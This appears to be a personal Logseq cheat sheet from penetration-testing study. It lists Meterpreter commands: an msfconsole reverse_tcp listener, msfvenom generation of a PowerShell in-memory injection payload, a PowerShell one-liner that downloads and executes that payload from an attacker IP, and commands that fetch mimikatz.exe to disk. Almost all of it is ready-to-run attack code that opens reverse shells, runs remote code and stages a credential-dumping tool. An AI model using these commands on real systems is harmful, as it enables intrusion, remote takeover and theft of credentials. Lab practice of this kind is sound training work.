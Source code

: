 public:: true

- Meterpreter
	- Start the listener
	  ```bash
	  msfconsole -q -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.183;set LPORT 8444;run;"
	  ```
	- Prepare the agent in powershell
		- ```bash
		  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.183 LPORT=4444 -f psh > meterpreter.ps1
		  ```
		- Using `-f psh` generates a powershell script which perform an *in-memory injection* (Remote Process Memory Injection) and the specified payload
		  logseq.order-list-type:: number
		- Using `-f powershell` only generates the payload
		  logseq.order-list-type:: number
- Download and execute from powershell
	- ```powershell
	  powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.183:8000/meterpreter.ps1');meterpreter"
	  ```
- Download to disk with powershell
	- ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/mimikatz.exe' -OutFile 'mimikatz.exe'"
	  
	  # OR
	  
	  Invoke-WebRequest "http://192.168.45.183:8000/mimikatz.exe" -OutFile "mimikatz.exe"
	  ```